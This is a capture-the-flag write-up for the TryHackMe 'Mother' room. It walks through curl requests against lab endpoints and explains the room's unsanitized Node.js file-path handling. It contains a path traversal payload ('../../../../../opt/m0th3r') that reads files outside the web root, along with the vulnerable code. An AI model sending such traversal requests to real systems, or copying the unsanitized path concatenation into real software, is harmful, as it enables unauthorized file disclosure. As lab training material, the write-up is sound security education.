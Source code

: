 # Mother

A writeup for the room [Mother](https://tryhackme.com/room/codeanalysis) on TryHackMe.

> Exploit flaws found in Mother's code to reveal its secrets.

<Image src={require("./logo.png").default} width="256" />

### What is the number of the emergency command override?

It is written in the description of the room.

### What is the special order number?

If we go to the home page, we can see different boxes that explain a little what the application can do. We are logged in as "Crew Member" without any permissions.

<Image src={require("./1-homepage.webp").default} />

<Image src={require("./2-classified.webp").default} />

We can see that there is a tool called Alien Loader that allows to upload yaml files to the server. It is the same tool described in the room description.

Since Alien Loader allows us to upload yaml files, we can try to use the available endpoint for yaml files to download 100375.yaml

<Image src={require("./3-yaml.webp").default} />

Run this command to make the request (remember to change the IP):

```bash
curl -X POST -d '{"file_path":"100375.yaml"}' -H "Content-Type: application/json" MACHINE_IP/yaml
```

The response will contain the special order number.

```
FOR SCIENCE OFFICER EYES ONLY  special SECRETS:  REROUTING TO: api/nostromo ORDER: 0rd3rXYZ.txt [****]
UNABLE TO CLARIFY. NO FURTHER ENHANCEMENT.
```

Now we know the number of the special order.

Be careful with the paths, the yaml endpoint is directly under root, while the Nostromo ones are under /api.

```
POST /yaml
POST /api/nostromo
POST /api/nostromo/mother

{
  "file_path": "path/to/file"
}
```

### What is the hidden flag in the Nostromo route?

The flag can be obtained by downloading the special order file from the nostromo endpoint.

<Image src={require("./4-nostromo.webp").default} />

The request:

```bash
curl -X POST -d '{"file_path":"0rd3r937.txt"}' -H "Content-Type: application/json" MACHINE_IP/api/nostromo
```

The result:

```
Mother
FOR SCIENCE OFFICER EYES ONLY 
SPECIAL ORDER 937 [............

PRIORITIY 1 ****** ENSURE RETURN OF ORGANISM FOR ANALYSIS****]

ALL OTHER CONSIDERATIONS SECONDARY

CREW EXPENDABLE

Flag{--REDACTED--}
```

### What is the name of the Science Officer with permissions?

After calling the previous endpoints, we can see that the username at the top of the homepage has changed.

<Image src={require("./5-ash.webp").default} />

### What are the contents of the classified "Flag" box?

Now that we are logged in as Ash when we go to the flag section we can finally see the contents of the classified box.

### Where is Mother's secret?

In the description of the room, it is indicate that the goal is to obtain the file secret.txt in the mother folder.

Now that we have activated the two other endpoints for authentication, we can try to call the mother one.

```bash
curl -X POST -d '{"file_path":"../../../../../opt/m0th3r"}' -H "Content-Type: application/json" MACHINE_IP/api/nostromo/mother
```

This will return the contents of the secret.txt file.

### What is Mother's secret?

All endpoints implemented in the routes file, including the mother endpoint, are vulnerable to path traversal. 

The user can insert any value and it will be concatenated to the base path without any sanitization.

```js
let file_path = req.body.file_path;
const filePath = `./public/${file_path}`;
```

So, if we send something like ../../../../../opt/m0th3r the value of filePath will be:

```
./public/../../../../../opt/m0th3r -> /opt/m0th3r
```

Send this request for the final flag:

```bash
curl -X POST -d '{"file_path":"../../../../../opt/m0th3r"}' -H "Content-Type: application/json" MACHINE_IP/api/nostromo/mother
```

